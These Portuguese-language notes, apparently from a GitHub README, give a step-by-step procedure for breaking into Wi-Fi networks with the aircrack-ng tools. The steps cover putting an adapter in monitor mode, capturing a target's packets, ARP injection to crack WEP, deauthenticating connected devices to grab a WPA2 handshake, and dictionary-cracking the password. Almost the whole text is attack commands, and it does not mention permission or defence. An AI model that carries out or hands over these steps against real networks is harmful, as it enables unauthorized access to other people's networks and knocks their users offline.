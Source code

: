 - adaptador wireless ou placa de rede que vem no notebook para testes
- iwconfig

### processo para habilitar modo monitor de seu adaptador wireless
- airmon-ng check
- airmon-ng check kill
- airmon-ng start wlan0

obs: modo monitor é necessario para listar todas as redes wifi próximas

### listar redes wifi disponiveis perto

- airodump-ng wlan [nome de sua interface wireless]
- ---
- BSSID é o endereço MAC dos roteadores
- PWR é o nivel de intensidade das redes listadas
- Beacons são os chamados envios do roteador
- Data são os dados que se da pra interceptar
- MB conectividade
- ENC tipo de criptografia (obs: visto em algumas aulas que a criptografia WEP que é bem antiga e legada)
- ESSID nome da rede
- ---

### começando a dar uma brincada
- airodump-ng -c [canal, por exemplo "1"] [nome de sua interface wireless]  (travar conectividade em um determinado tipo de canal wireless, util pra quando se quer fazer algo nela sem que haja oscilação)
- airodump-ng -c [canal, por exemplo "1"] --bssid [endereço MAC roteador alvo] -w [nome do arquivo que vc quer que salve tudo o que for capturado] [nome da sua interface wireless]  (captura alguns pacotes de autenticação ou outras informações uteis, lembrando que esse comando é mais focado para ENC WEP)

### arp injection via ENC WEP (o mais simples) para gerar dados a rede alvo

esse comando foca em enviar dados adcionais a outros roteadores fazendo se passarem por eles mesmos usando o station deles, isso é útil para gerar pacotes adcionais de dados para usarmos o aircrack e assim possivelmente conseguir quebrar a senha wifi do alvo)

- aireplay-ng -3 -b [bssid] -h [station de um dos bssid encontrados no comando acima] [nome da sua interface wireless]

### air crack para quebra de senhas wifi (ENC WEP o mais simples, legado)

- aircrack-ng -a [canal, por exemplo "1"] [nome-do-arquivo-que-vc-salvou-no-airodump-.cap]

---
### Atacando rede WPA2

- airodump-ng [sua interface]
- airodump-ng -c 1 --bssid [bssid do alvo] -w redeWPA  [sua interface wireless] -> salvando esse pacote wpa2 do alvo em um arquivo redeWPA
- Precisa agora que haja uma nova conexão com a rede alvo para que possamos capturar o handshake (podemos utilizar o comando abaixo para remover a autenticação de dispositivos atuais na rede)
- aireplay-ng -0 3 -e [nome da rede alvo] [sua interface wireless]
- Agora deve ter aparecido um handshake naquele nosso comando de redeWPA e pode parar a captura agora.
- ls -l redeWPA-01* 
- aircrack-ng -w [wordlist] [caminho-do-arquivo-dos-pacotes-]
- key found! [senha encontrada]
  
